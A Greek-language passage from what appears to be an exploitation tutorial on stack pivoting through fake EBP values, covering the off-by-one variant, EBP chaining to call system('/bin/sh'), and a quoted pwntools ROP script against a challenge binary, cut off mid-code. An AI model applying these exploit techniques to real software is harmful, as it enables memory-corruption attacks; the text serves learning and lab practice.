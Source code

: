 #### Εκμετάλλευση Off-By-One

Υπάρχει μια συγκεκριμένη παραλλαγή αυτής της τεχνικής που είναι γνωστή ως "Off-By-One Exploit". Χρησιμοποιείται όταν μπορείτε **να τροποποιήσετε μόνο το λιγότερο σημαντικό byte του EBP**. Σε τέτοιες περιπτώσεις, η τοποθεσία μνήμης που αποθηκεύει τη διεύθυνση προς την οποία θα πρέπει να μεταβεί με το **`ret`** πρέπει να μοιράζεται τα πρώτα τρία bytes με το EBP, επιτρέποντας μια παρόμοια χειραγώγηση με περισσότερους περιορισμένους όρους.\
Συνήθως τροποποιείται το byte 0x00 για να μεταβεί όσο το δυνατόν πιο μακριά.

Επίσης, είναι συνηθισμένο να χρησιμοποιείται ένα RET sled στη στοίβα και να τοποθετείται η πραγματική αλυσίδα ROP στο τέλος για να είναι πιο πιθανό να δείχνει το νέο ESP μέσα στο RET SLED και να εκτελείται η τελική αλυσίδα ROP.

### **Αλυσίδα EBP**

Επομένως, τοποθετώντας μια ελεγχόμενη διεύθυνση στην είσοδο `EBP` της στοίβας και μια διεύθυνση στο `EIP` για το `leave; ret`, είναι δυνατό να **μετακινηθεί το `ESP` στην ελεγχόμενη διεύθυνση `EBP` από τη στοίβα**.

Τώρα, το **`ESP`** ελέγχεται δείχνοντας σε μια επιθυμητή διεύθυνση και η επόμενη εντολή που θα εκτελεστεί είναι ένα `RET`. Για να καταχραστείτε αυτό, είναι δυνατό να τοποθετήσετε στην ελεγχόμενη θέση του ESP αυτό:

* **`&(επόμενο ψεύτικο EBP)`** -> Φόρτωση του νέου EBP λόγω του `pop ebp` από την εντολή `leave`
* **`system()`** -> Καλείται από το `ret`
* **`&(leave;ret)`** -> Καλείται μετά τη λήξη του συστήματος, θα μετακινήσει το ESP στο ψεύτικο EBP και θα ξεκινήσει ξανά
* **`&("/bin/sh")`**-> Παράμετρος για το `system`

Βασικά με αυτόν τον τρόπο είναι δυνατό να αλυσίδωσετε αρκετά ψεύτικα EBPs για να ελέγξετε τη ροή του προγράμματος.

Αυτό είναι σαν ένα [ret2lib](../rop-return-oriented-programing/ret2lib/), αλλά πιο πολύπλοκο χωρίς προφανές όφελος αλλά θα μπορούσε να είναι ενδιαφέρον σε κάποιες εξαιρετικές περιπτώσεις.

Επιπλέον, εδώ έχετε ένα [**παράδειγμα ενός προκλητικού**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave) που χρησιμοποιεί αυτή την τεχνική με ένα **διαρροή στη στοίβα** για να καλέσει μια νικητήρια συνάρτηση. Αυτό είναι το τελικό φορτίο από τη σελίδα:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
0x0,               # rbp (could be the address of anoter fake RBP)
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,
elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
buffer,         # Load leak address in RBP
LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
```